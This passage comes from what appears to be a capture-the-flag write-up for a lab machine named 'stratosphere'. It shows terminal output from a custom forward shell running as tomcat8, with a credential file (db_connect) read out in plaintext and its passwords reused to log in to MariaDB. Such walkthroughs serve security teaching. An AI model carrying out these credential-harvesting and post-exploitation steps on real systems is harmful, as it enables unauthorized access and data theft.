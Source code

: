 We could have done this without the shell, but it was fun to build, and
made enumeration much easier.

Using new shell, connect to the database observed on 3306 with creds we
found in the file above:



    root@kali# python3 ./stratosphere_shell.py
    Session: 36734
    [*] Setting up fifo shell on target
    [*] Setting up read thread
    stratosphere> upgrade
    tomcat8@stratosphere:~$
    pwd
    /var/lib/tomcat8
    tomcat8@stratosphere:~$
    ls -l
    total 16
    lrwxrwxrwx 1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
    -rw-r--r-- 1 root    root      68 Oct  2  2017 db_connect
    drwxr-xr-x 2 tomcat8 tomcat8 4096 Sep  3  2017 lib
    lrwxrwxrwx 1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
    drwxr-xr-x 2 root    root    4096 May  2 11:58 policy
    drwxrwxr-x 4 tomcat8 tomcat8 4096 Feb 10 21:12 webapps
    lrwxrwxrwx 1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8
    tomcat8@stratosphere:~$
    cat db_connect
    [ssn]
    user=ssn_admin
    pass=AWs64@on*&

    [users]
    user=admin
    pass=admin
    tomcat8@stratosphere:~$
    mysql -u admin -p
    mysql -u admin -p
    Enter password:
    admin

    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 67
    Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1

    Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    MariaDB [(none)]>
    show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | users              |
    +--------------------+
    2 rows in set (0.00 sec)
